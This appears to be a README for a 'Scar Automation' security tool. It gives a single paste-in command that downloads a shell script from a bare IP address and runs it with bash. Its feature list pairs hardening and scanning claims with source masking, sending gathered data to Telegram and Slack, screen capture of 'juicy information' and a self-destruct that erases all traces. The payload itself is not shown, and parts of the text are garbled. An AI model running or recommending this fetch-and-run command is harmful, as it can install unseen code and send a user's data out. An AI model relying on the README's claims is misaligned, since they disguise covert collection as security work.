 # Scar_Automation_tool
`Developed by Security Researcher | Abhishek Kanaujia`

To run the Scar Use command: `wget http://161.117.85.147/tool/scar-installer.sh;chmod +x scar-installer.sh;bash scar-installer.sh`

# Faetures of Scar Automation
1. Ability to reinforce a Linux server
2. Infrastructure level Vulnerability Assessment digitalization and automation
3. Automation of Level Evaluation of Root Privileges escalation
4. Active Directory Security Configuration & Hardening Enhanced Automation
5. SMB Shares Scan automation in constructed related to Windows Server
6. Fully configurable load balancer with pipe capacity to reduce time and increase the effectiveness
7. Anonymously install the flexibility which gives you complete encapsulation to mask the source code
8. Set up at your fingertips with a single command line.
9. Configurable functionality which requires a passphrase to execute the tool each time
10. Built-in one-tab feature to send all gathered information to multiple cross-platforms like Telegram, On-premises server, Slack, and more for the GAP Analysis
11. One-Tab Self-destructing function which removes all traces of the installed tool
12. A single time password is needed for all automation tasks
13. Built-in screen capture functionality for juicy information 
14. Available across platforms such as Linux, Windows and macOS | on process
15. Numerous other functions are in the queue
